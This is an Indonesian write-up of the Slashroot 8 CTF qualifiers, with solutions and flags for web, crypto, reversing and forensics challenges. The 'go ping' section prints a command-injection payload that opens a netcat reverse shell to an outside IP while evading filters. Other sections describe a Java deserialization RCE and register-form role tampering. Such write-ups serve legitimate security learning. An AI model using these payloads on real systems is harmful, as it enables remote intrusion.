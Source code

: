 ```yaml
---
title: Slashroot 8 Quals
date: 2024-09-24
team: N2L - Sigma
member:
  - pajarori
---
```


# [joy]

## package delivery {#packagedelivery}
### overview
Diberikan file zip berisi file program yang dibuat dengan godot engine terdapat file .exe dan .pck, nah cara mudahnya disini kita hanya perlu melakukan strings pada file .pck dan ambil untuk string berisi kata slashroot, nah karena kayaknya kurang menantang pada saat memulai program disuruh untuk memainkan dan mendapatkan score 9999, disini saya menggunakan cheat engine untuk menyelesaikan itu.
![packagedelivery-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/packagedelivery-1.png)
### flag
slashroot8{N0T90Nn4l1e_tH4T_w45_E45y_hUh?}

# [web exploitation]
## login begin {#loginbegin}
### overview
Pada target website terdapat form login dan register namun terdapat bug parameter tampering pada parameter role di form register sehingga user yang ingin melakukan register bisa menjadikannya ke role admin dan mendapatkan flag yang di sembunyikan pada source htmlnya.
![loginbegin-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/loginbegin-1.png)
![loginbegin-2](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/loginbegin-2.png)
### flag
slashroot8{W0w_Y0u_G00d_B3gg1nn3r}

## go ping {#goping}
Diberikan sebuah form input host dan ketika di submit aplikasi melakukan execute command ping, ini biasanya sering jadi buat test untuk bug command injection. Disini saya langsung nge rev shell buat dapetin flag make payload
```bash showLineNumbers
&&|$(nc${IFS}10.10.10.10${IFS}1337${IFS}-e${IFS}sh)
```
![goping-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/goping-1.png)
![goping-2](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/goping-2.png)
### flag
slashroot8{Rc3_W1Th_c0mM4Nd_1Nj3cT1On_1S_V3Ry_v3rY_N1Ce}

## ez momento {#ezmomento}
### overview
Diberikan sebuah file source java, pada challange ini bug nya adalah Deserialization dengan memanfaatkan fungsi toString() di Gadget untuk yang fungsi run() di Command yang akan bisa menjadi RCE. 
![ezmomento-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/ezmomento-1.png)
Pada Main data dari request POST di deserialize dan kemudian memanggil fungsi toString() yang mana ada class Gadget yang mempunyai fungsi toString() yang isinya adalah memanggil fungsi run() dari variable this.command, eksekusi kode dilakukan di dalam class Command dengan menggunakan privat variable. Jadi untuk melakukan exploit dengan membuat payload serialize dari Gadget dan Command dengan variable command di dalam class Command adalah payload untuk reverse shell. 
![ezmomento-2](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/ezmomento-2.png)
Disini saya menggunakan Main.java untuk membuat payload nya.
![ezmomento-3](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/ezmomento-3.png)
![ezmomento-4](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/ezmomento-4.png)
### flag
slashroot8{it_is_really_private_UwU}

# [cryptography]
## baby encrypt {#babyencrypt}
### overview
Diberikan file python yang tampaknya di obfus dan dia sepertinya melakukan aes decrypt dan encrypt, namun ketika saya melihat kodingan ini saya hanya fokus pada bagian *print(eval(_d(_ct, _K, _I)))* dan *from secret import FLAG as _F*. Terdapat eval dan kemudian variable FLAG di *import sebagai _F* disini saya tanpa Slashroot 8.0 | N2L 11 mementingkan segala enkripsi yang terjadi di script ini, saya melakukan brute force untuk mendapatkan variable _F yang hanya 2 byte dan berharap bisa dieksekusi oleh eval() yang kemudian di print().
![babyencrypt-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babyencrypt-1.png)
### code
[babyencrypt.py](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/files/babyencrypt.py)
### flag
slashroot8{ez_aes_decrypt_game_for_first_chall}

# [reverse engineering]

## baby lua {#babylua}
### overview
Diberikan sebuah binary ELF, ketika saya lihat menggunakan ghidra terdapat command yang di enkripsi base64. itu adalah command untuk mendownload file.luac yang nantinya digunakan untuk memverifikasi input user.
![babylua-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babylua-1.png)
![babylua-2](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babylua-2.png)
Jadi di dalam file .luac ini terdapat flag dari challenge, untuk meng decompile luac atau lua compiled menjadi lua saya menggunakan tools [luadec.metaworm.site](https://luadec.metaworm.site/). Setelah di dec terdapat binary text ini tinggal decode aja dan dapatlah flagnya.
![babylua-3](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babylua-3.png)
![babylua-4](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babylua-4.png)
### flag
slashroot8{ez_0n3_f0r_y0u_see_y0u_1n_f1n4l}

## baby apk {#babyapk}
### overview
Diberikan file .apk yang menerima input angka yang kemudian digunakan untuk mendekripsi file image di raw.
![babyapk-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babyapk-1.png)
Algoritma yang digunakan dalam melakukan dekripsinya adalah XOR jadi asalkan tau beberapa byte di awal adalah apa maka bisa mendekripsi seluruh image dan kita tahu bahwa awal dari file image adalah header dengan tipe image itu sendiri. Disini headernya gambarnya adalah file png jadi saya menggunakan header png untuk mendapatkan key untuk mendekripsi seluruh isi konten. 
![babyapk-2](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babyapk-2.png)
![babyapk-3](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babyapk-3.png)
Dan didapatkan gambar qrcode dan ketika di translate dapat lah flagnya.
![babyapk-4](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babyapk-4.png)
### flag
slashroot8{t00_d4mn_easy?_see_u_in_f1n4l}

## check khodan {#checkkhodam}
### overview
Terdapat intent FlagActivity pada aplikasi yang akan menampilkan sebuah flag dan untuk bisa melihat isi flag aplikasi melakukan verifikasi apakah level battery pada device yang digunakan adalah 69. 
![checkkhodam-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/checkkhodam-1.png)
Disini saya menggunakan emulator dari Android Studio dan merubah battery level menjadi 69 dan kemudian memanggil intent FlagActivity dan mendapatkan flagnya.
![checkkhodam-2](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/checkkhodam-2.png)
### flag
slashroot8{my_khod4m_is_j4l4k_b4ali}

# [digital forensic]

## find the key {#findthekey}
### overview
Diberikan file .unknown yang ternyata adalah file gambar jpg yang headernya corrupt jadi harus dibenerin dulu, setelah dibenerin dan di cek menggunakan binwalk terdapat file .zip yang di embed di dalam file .jpg.
![findthekey-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/findthekey-1.png)
tapi file .zip itu terenkripsi namun dapat di brute dan didapatkan passwordnya admin123. 
![findthekey-2](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/findthekey-2.png)
Setelah di ekstrak terdapat sebuah file yang isinya banyak sekali enkripsi base64 dan binary yang di campur, kebanyakan itu adalah fake flag jadi saya coba satu satu dan ketemu flagnya yang correct.
![findthekey-3](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/findthekey-3.png)
### flag
slashroot8{Y4n9_b1k1n_s04l_m4s1h_p3mul4}

## tiktiktik {#tiktiktik}
### overview
Diberikan 4 folder yang berisi file .png yang merupakan setiap pixel dari sebuah gambar. Jadi disini harus membentuk ulang gambarnya dari setiap pixel tersebut dan ada 4 folder di sini berarti ada 4 chunk kira kira dan disini saya asumsikan bahwa ini adalah gambar dengan rasio persegi. Disini saya melakukan sorting pada setiap pixel di chunk dan kemudian menggabungkannya semua sehingga nanti terbuatlah 4 file gambar yang jika dirangkai akan menjadi flag.
### code
[tiktiktik.py](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/files/tiktiktik.py)
### flag
slashroot8{s33_y0u_d1_f1nAl}
